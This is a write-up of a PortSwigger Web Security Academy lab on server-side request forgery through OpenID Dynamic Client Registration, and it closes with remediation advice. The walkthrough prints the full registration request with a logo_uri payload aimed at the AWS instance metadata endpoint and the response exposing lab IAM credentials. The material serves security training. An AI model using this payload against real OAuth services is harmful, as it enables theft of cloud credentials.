




# SSRF via OpenID Dynamic Client Registration

## Overview

This lab demonstrates a **Server-Side Request Forgery (SSRF)** vulnerability in an OAuth service that supports **OpenID Dynamic Client Registration**.

The OAuth service allows client applications to dynamically register metadata, including a `logo_uri`. This URL is later fetched server-side when the OAuth authorization interface attempts to retrieve the registered client's logo.

Because the application does not properly restrict the `logo_uri`, an attacker can register a URL pointing to an internal service and use the logo retrieval functionality to perform an SSRF request.

The objective of the lab was to access the cloud instance metadata service and retrieve the secret access key from:

```text
http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/
```

---

## Lab Information

| Item          | Details                                                            |
| ------------- | ------------------------------------------------------------------ |
| Platform      | PortSwigger Web Security Academy                                   |
| Vulnerability | Server-Side Request Forgery (SSRF)                                 |
| Technology    | OAuth 2.0 / OpenID Connect                                         |
| Feature       | OpenID Dynamic Client Registration                                 |
| Difficulty    | Practitioner                                                       |
| Tools         | Burp Suite Community Edition, Browser                             |
| Account       | `wiener:peter`                                                     |
| Target        | `https://0a68008a0359600680ff0359009000eb.web-security-academy.net/` |
| OAuth Server  | `oauth-0a1a006a035d6087806401c5022d00ab.oauth-server.net`         |
| Collaborator  | Not required                                                       |

> [!NOTE]
> **Note on Instance Identifiers:**
> During the lab exercise, the initial session timed out and the lab instance was restarted. Consequently, earlier reconnaissance screenshots captured during initial exploration show the previous OAuth server ID (`oauth-0a4500f7042fb0428054107702d30087.oauth-server.net`), whereas the exploitation steps, credential extraction, and final lab completion screenshots reflect the fresh solved instance (`oauth-0a1a006a035d6087806401c5022d00ab.oauth-server.net`). The vulnerability mechanism and reproduction steps remain identical.

---

## Objective

Exploit the OAuth service's dynamic client registration functionality to perform an SSRF request against:

```text
http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/
```

and retrieve the `SecretAccessKey` from the returned cloud metadata.

---

# 1. Initial Reconnaissance

I started by following the normal OAuth authentication flow before attempting any exploitation.

The normal flow was:

```text
Lab Application
      |
      | GET /auth
      v
OAuth Authorization Server
      |
      | POST /interaction/<id>/login
      v
User Authentication
      |
      | POST /interaction/<id>/confirm
      v
Permission / Consent
      |
      | GET /oauth-callback?code=<authorization-code>
      v
Lab Application
      |
      v
Authenticated Account
```

I logged in using:

```text
Username: wiener
Password: peter
```

The OAuth authorization request contained:

```http
GET /auth?client_id=e6quyoe6r1rbwoiovxn17&redirect_uri=https://0a68008a0359600680ff0359009000eb.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email
```

The OAuth server for this lab instance was:

```text
oauth-0a1a006a035d6087806401c5022d00ab.oauth-server.net
```

During the authentication flow, the OAuth server created an interaction session:

```http
POST /interaction/<interaction-id>/login
```

This request contained the supplied credentials.

After successful authentication, `POST /interaction/<id>/confirm` finalized the user's authorization/consent step before the OAuth server redirected the user back to the client application:

```http
POST /interaction/<interaction-id>/confirm
```

The OAuth server redirected the browser to the application's `/oauth-callback` endpoint with an authorization code, completing the authorization flow:

```http
GET /oauth-callback?code=<authorization-code>
```

This confirmed the basic OAuth flow and provided the OAuth server hostname for further testing.

### Evidence


---

# 2. OpenID Connect Discovery

The OAuth server exposes its OpenID Connect configuration through the standard discovery endpoint:

```http
GET /.well-known/openid-configuration
```

The response identified the dynamic client registration endpoint:

```json
{
    "registration_endpoint": "https://oauth-0a1a006a035d6087806401c5022d00ab.oauth-server.net/reg"
}
```

Other relevant endpoints included:

```text
/auth
/reg
/token
/me
```

The discovery response also indicated:

```json
"request_uri_parameter_supported": true,
"require_request_uri_registration": true
```

For this lab, the critical discovery result was the dynamic registration endpoint:

```text
POST /reg
```

---

# 3. Testing Dynamic Client Registration

I first tested the registration endpoint without providing any client metadata:

```http
POST /reg HTTP/2
Host: oauth-0a1a006a035d6087806401c5022d00ab.oauth-server.net
Content-Type: application/json

{}
```

The endpoint responded with a `400 Bad Request` error because required registration parameters were missing:

```json
{
    "error": "invalid_redirect_uri",
    "error_description": "redirect_uris is mandatory property"
}
```

### Evidence



---

# 4. Registering a Client Application

The registration endpoint requires at least a `redirect_uris` array.

I registered a test client using:

```http
POST /reg HTTP/2
Host: oauth-0a1a006a035d6087806401c5022d00ab.oauth-server.net
Content-Type: application/json

{
    "redirect_uris": [
        "https://example.com"
    ]
}
```

The OAuth server returned:

```http
HTTP/2 201 Created
```

along with client metadata including a newly generated `client_id`.

This demonstrated that an attacker could dynamically register an arbitrary client application without requiring authentication or administrative privileges.

---

# 5. Identifying the SSRF Sink

The OAuth authorization interface displays information about the registered client, including its logo.

OpenID Connect allows a client application to specify its logo URL using:

```json
"logo_uri": "https://example.com/logo.png"
```

The OAuth service retrieves the registered logo through:

```text
GET /client/<CLIENT-ID>/logo
```

This made `logo_uri` a potential SSRF sink.

The key security question was whether the OAuth server would fetch the supplied URL server-side rather than leaving the browser to fetch it directly from the client.

---

# 6. SSRF Payload

I registered another client and supplied the cloud instance metadata endpoint as the `logo_uri`:

```http
POST /reg HTTP/2
Host: oauth-0a1a006a035d6087806401c5022d00ab.oauth-server.net
Content-Type: application/json

{
    "redirect_uris": [
        "https://example.com"
    ],
    "logo_uri": "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}
```

The server accepted the registration and returned a new client ID:

```text
iKS3DjUO9Jjs3GqpVYgEU
```

### Evidence



---

# 7. Triggering the SSRF

The registered logo can be retrieved through:

```http
GET /client/iKS3DjUO9Jjs3GqpVYgEU/logo
```

The full URL was:

```text
https://oauth-0a1a006a035d6087806401c5022d00ab.oauth-server.net/client/iKS3DjUO9Jjs3GqpVYgEU/logo
```

Instead of returning an image or validating the remote destination, the OAuth server fetched the URL specified in `logo_uri` directly from its own backend network context.

Because `logo_uri` pointed to:

```text
http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/
```

the OAuth server made a server-side request to the internal cloud metadata service.

This confirmed the SSRF vulnerability.

### Evidence



---

# 8. Retrieving Cloud Credentials

The SSRF response contained sensitive cloud metadata:

```json
{
    "Code": "Success",
    "LastUpdated": "2026-09-02T22:25:29.437908414Z",
    "Type": "AWS-HMAC",
    "AccessKeyId": "cJF7x40f8FJLoWnletbE",
    "SecretAccessKey": "NDRx75f6XAwSuhN5vjcZ2NAbyh8jhGTdkC5TAA1A",
    "Token": "jlQ7W6zKtqhotZswDh192lzv5uXGfDdMtp4ABsbVUcVM5DYQiar9UD7dML5zN5avQqEbaeXOUMUqsTA0J0blFliJxm8TWJ3vbUGtHCqxPp2kzfonbDWl5RnVzEhnBiigd7pV7EtsQodY34IzSnqqekNici9sjQMkli2WRX18reZ79gz8zViQ03R2biwtneYZTylfYzq73Kms7XjcmF6RxThjzJ1HMeG8Cv8aoHoV7rkJjZEpcxc0tDVA2bHDB7oH",
    "Expiration": "2032-08-31T22:25:29.437908414Z"
}
```

The response exposed the OAuth provider's AWS IAM credentials, including the required `SecretAccessKey`:

```text
NDRx75f6XAwSuhN5vjcZ2NAbyh8jhGTdkC5TAA1A
```

I submitted the retrieved secret access key using the lab's **Submit solution** functionality.

### Evidence



---

# 9. Lab Completed

The lab accepted the extracted secret access key and confirmed completion.

### Evidence


---

# Attack Chain

The complete attack flow:

```text
OpenID Discovery (GET /.well-known/openid-configuration)
       │
       ▼
Dynamic Client Registration (POST /reg)
       │
       ▼
Attacker-controlled logo_uri (http://169.254.169.254/...)
       │
       ▼
Client Created -> Client ID: iKS3DjUO9Jjs3GqpVYgEU
       │
       ▼
Fetch /client/<CLIENT-ID>/logo
       │
       ▼
OAuth server initiates backend HTTP request (SSRF)
       │
       ▼
AWS Instance Metadata Service (169.254.169.254)
       │
       ▼
IAM Security Credentials (/admin/)
       │
       ▼
SecretAccessKey Extracted & Submitted
       │
       ▼
Lab Solved
```

---

# Technical Explanation

The vulnerability exists because the OAuth service accepts attacker-controlled client metadata during dynamic registration without strict validation or destination filtering.

An attacker registers arbitrary metadata:

```json
{
    "redirect_uris": [
        "https://example.com"
    ],
    "logo_uri": "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}
```

The server stores this metadata and later references the `logo_uri` value when serving requests to:

```text
GET /client/<CLIENT-ID>/logo
```

Instead of restricting where this URL can point or enforcing network boundaries, the server makes a backend HTTP request to the attacker-supplied destination.

This creates a **second-order SSRF**:

```text
Client Registration
       ↓
Malicious URL Stored
       ↓
Later Logo Retrieval (/client/<id>/logo)
       ↓
Server-Side HTTP Request
       ↓
Internal Resource / Cloud Metadata Accessed
```

The SSRF can reach internal network destinations that are not directly accessible from the outside internet. In this lab, the internal target was the AWS instance metadata service at `169.254.169.254`, exposing IAM credentials tied to the server environment.

---

# Impact

A vulnerable implementation of dynamic client registration with unrestrained server-side fetching allows an attacker to:

* Make requests from the OAuth server's trusted network context.
* Access internal non-routable network ranges (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`, `127.0.0.1`, `169.254.169.254`).
* Query cloud instance metadata services to retrieve temporary IAM roles and keys.
* Pivot from an internet-facing OAuth service directly into internal cloud infrastructure and APIs.

---

# Why `logo_uri` Was the SSRF Sink

During reconnaissance, it is critical to distinguish between parameters that redirect user agents versus parameters that trigger server-side requests.

For example:

```json
{
    "redirect_uris": [
        "https://example.com"
    ]
}
```

defines where the user's browser is redirected after authorization. The server does not fetch this URL directly.

In contrast:

```json
"logo_uri": "https://example.com/logo.png"
```

is cached, rendered, or served by the OAuth service when presenting the client application's identity to users. That server-side retrieval is what creates the SSRF condition.

---

# Tools Used

* **Burp Suite Community Edition** (HTTP Proxy, Repeater)
* **Web Browser** (Chromium / Firefox)
* **PortSwigger Web Security Academy**

---

# Key Takeaways

### 1. Map the normal OAuth flow first
Before looking for vulnerabilities, map:
```text
/auth
/interaction/*
/oauth-callback
```
Understand how the authorization and consent workflows operate.

### 2. Always inspect OpenID Connect discovery
The discovery document at `/.well-known/openid-configuration` reveals endpoints such as `registration_endpoint`, `authorization_endpoint`, `token_endpoint`, and supported features that may otherwise remain hidden.

### 3. Dynamic registration is a high-value attack surface
If an OAuth service permits unauthenticated client registration (`POST /reg`), inspect all client-controlled metadata fields (`logo_uri`, `client_uri`, `policy_uri`, `tos_uri`, `jwks_uri`).

### 4. Distinguish client-side redirects from server-side fetches
Parameters like `redirect_uri` guide the browser, while parameters like `logo_uri` often prompt backend HTTP requests, creating SSRF sinks.

### 5. Cloud instance metadata amplifies SSRF severity
Access to the link-local metadata address `169.254.169.254` can turn SSRF into total cloud environment compromise by exposing temporary IAM credentials.

### 6. Burp Community Edition was fully sufficient
While PortSwigger's official solution suggests Burp Collaborator to verify out-of-band interaction, the lab can be solved directly with Burp Community Edition by pointing `logo_uri` straight to the target internal metadata endpoint and inspecting the response.

---

# Remediation & Prevention

To remediate SSRF in OpenID Dynamic Client Registration:

1. **Restrict Dynamic Registration**: Disable unauthenticated dynamic client registration if not required, or restrict registration to pre-authenticated administrators or trusted partners.
2. **Strict URL Validation & Whitelisting**: If client logos are accepted, enforce an allowlist of trusted domains or schemes (`https://` only) and reject private/reserved IP ranges.
3. **Block Private and Link-Local IP Addresses**: Implement network-level or application-level egress controls to prevent backend requests to `127.0.0.0/8`, `10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`, and link-local `169.254.169.254`.
4. **Enforce IMDSv2**: In AWS cloud environments, require IMDSv2 (`HttpTokens=required`) with a hop limit of 1 to prevent unauthorized SSRF access to instance metadata credentials.
5. **Client-Side Image Rendering**: Rather than fetching and proxying logos server-side, serve the registered `logo_uri` directly to the client browser to render.

---

# Conclusion

This lab demonstrated how insecure OpenID Dynamic Client Registration can lead to Server-Side Request Forgery.

By controlling `logo_uri` during dynamic registration and requesting `/client/<CLIENT-ID>/logo`, the OAuth server was coerced into querying the internal AWS metadata service and returning cloud IAM credentials.

```text
Unauthenticated Dynamic Registration
            +
Attacker-Controlled logo_uri
            +
Server-Side Logo Fetch
            =
SSRF
            ↓
Cloud Metadata Access (169.254.169.254)
            ↓
IAM Credential Exposure
```
